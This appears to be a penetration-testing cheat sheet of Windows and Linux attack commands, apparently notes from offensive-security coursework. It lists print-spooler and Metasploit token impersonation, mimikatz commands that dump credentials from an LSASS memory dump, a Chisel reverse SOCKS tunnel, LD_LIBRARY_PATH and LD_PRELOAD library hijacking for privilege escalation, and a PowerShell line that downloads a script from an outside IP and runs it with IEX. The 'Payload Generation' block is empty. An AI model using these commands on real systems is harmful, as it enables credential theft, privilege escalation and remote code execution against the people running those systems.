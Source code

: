 # Windows Credential

## SpoolSV Exploitation
```powershell
SpoolSample.exe [Host Machine] [Target Pipe] <appsrv01\test>
PrintSpooferNet.exe [Target Pipe] <\\.\pipe\test\pipe\spoolss>
```
## Incognito Impersonation Metasploit
```powershell
#Inside Metasploit 
load incognito
list_tokens -u
impersonate_token corp1\\admin
getuid
```
## MiniDump
```powershell
#MiniDump.exe
sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords
```
# Network 

## Chisel Tunnel
```Powershell
#Server Side
./chisel server -p [Port] --reverse

#Client Side
./chisel client [Server IP Address]:[Port] R:[Remote Port]:socks

#Server Side
proxychains4 nmap [IP Address]
```
# Linux Command Injection 

## LD_LIBRARY_PATH Hijacking
Logic: Use LDD to find libgpg-error.so.0 → Use readelf to grep needed variable → Put into "Linux Shellcode Loaders/sharedLibrary_LD_LIBRARY_PATH.c" → Export the library path and Execute
```bash
ldd /usr/bin/top //Find out libgpg-error.so.0 => /lib/x86_64-linux-gnu/libgpg-error.so.0 (0x00007ff5aa0f8000)
readelf -s --wide /lib/x86_64-linux-gnu/libgpg-error.so.0 | grep FUNC | grep GPG_ERROR | awk '{print "int",$8}' | sed 's/@@GPG_ERROR_1.0/;/g'
gcc -Wall -fPIC -z execstack -c -o sharedLibrary_LD_LIBRARY_PATH.o sharedLibrary_LD_LIBRARY_PATH.c
gcc -shared -o sharedLibrary_LD_LIBRARY_PATH.so sharedLibrary_LD_LIBRARY_PATH.o -ldl
export LD_LIBRARY_PATH=/home/offsec/ldlib/
sudo top
```

## LD_PRELOAD
Logic: Use ltrace cp → find out the cp command use getuid → set LD_PRELOAD to hijack the function
```bash
gcc -Wall -fPIC -z execstack -c -o sharedLibrary_LD_PRELOAD.o sharedLibrary_LD_PRELOAD.c
gcc -shared -o sharedLibrary_LD_PRELOAD.so sharedLibrary_LD_PRELOAD.o -ldl
export LD_PRELOAD=/home/offsec/evil_geteuid.so
```

# MSF Console

## Payload Generation
```bash

```

## Post-exploitation
```powershell
execute -H -f notepad
migrate

##Download Host Recon
(new-object system.net.webclient).downloadstring('http://192.168.119.120/HostRecon.ps1') | IEX

## Check RunasPPL (If 1 -> Enabled)
Get-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\Lsa -Name "RunAsPPL"
```
